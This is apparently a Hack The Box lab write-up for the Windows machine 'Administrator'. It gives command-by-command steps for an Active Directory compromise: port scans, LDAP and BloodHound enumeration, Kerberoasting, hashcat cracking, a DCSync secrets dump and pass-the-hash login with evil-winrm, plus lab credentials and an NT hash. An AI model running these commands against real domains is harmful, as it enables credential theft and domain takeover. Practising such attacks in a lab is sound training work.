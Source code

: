 ```yaml
---
date: 2025-03-02
categories: [Windows, Medium, AD]
---
```


![Administrator](https://labs.hackthebox.com/storage/avatars/9d232b1558b7543c7cb85f2774687363.png)

---

| **Created by** | **Page**     | **Difficulty** | **OS**  |
|-------------|--------------|----------------|---------|
| [nirza](https://app.hackthebox.com/users/800960)        | [Hack The Box](https://www.hackthebox.com/)     | Medium           | Windows   |

---









- I start with a scan of the open ports and I continue with a scan of the versions and technologies that are running on the open ports that we have found
	
	```python
	nmap -p- --open --min-rate 5000 -Pn sS 10.10.11.42 -oG scan
	nmap -p21,53,88,135,139,389,445,464,593,636,3268,3269,5985,9389,47001,49664,49665,49667,49668,52151,56764,60584,60595,60600,60603,60623 -sCV -Pn 10.10.11.42 -oN ports
	```

	![image](https://github.com/user-attachments/assets/7fc4cccc-53ab-49d4-9668-96baf067d0ce)

- I'm trying to pull up something interesting that is shared by smb using the credentials provided by HTB but I can't find anything.
- enumerate the system with [ldapdomaindump](https://github.com/dirkjanm/ldapdomaindump) bloodhound to see if there are potential ways to escalate privileges.

	```python
	ldapdomaindump -u 'ADMINISTRATOR.HTB\olivia' -p 'ichliebedich' 10.10.11.42
	bloodhound-python -u 'olivia' -p 'ichliebedich' -ns 10.10.11.42 -d administrator.htb --zip
	```

- I list the users who have SPN set to request a TGS, I find the user ethan and get his hash

	![image](https://github.com/user-attachments/assets/15cd8b79-dac9-425f-8527-629b671ba28b)

	```python
	rdate -n 10.10.11.42; impacket-GetUserSPNs  administrator.htb/olivia:ichliebedich -request
	```

	![image](https://github.com/user-attachments/assets/0f4b516b-70b5-49f2-a884-8b8977b71ec0)

- I break in hash and get the clear text password from the user 

	```python
	hashcat -m 13100 -a 0 TgS_ethan /usr/share/wordlists/rockyou.txt -o cracked.txt
	```
	
	![image](https://github.com/user-attachments/assets/1a099d14-63af-4695-9855-b3faa856a900)

- Consulting bloodhound I see that I can obtain the user hashes by doing a DCSync attack.

	![image](https://github.com/user-attachments/assets/56da476a-9f9b-4704-9594-b75a04af0bd2)

	```python
	impacket-secretsdump administrator.htb/ethan@10.10.11.42
	```

	![image](https://github.com/user-attachments/assets/4ef86308-fadc-4823-b9d1-2d8b23cf904a)

- I get the nt hash from the admin user and connect with it to the system to be able to read the second flag.

	```python
	evil-winrm -u Administrator -H "3dc553ce4b9fd20bd016e098d2d2fd2e" -i 10.10.11.42
	```

	![image](https://github.com/user-attachments/assets/636f48b3-51e5-47f0-a538-720f19f1e3e2)

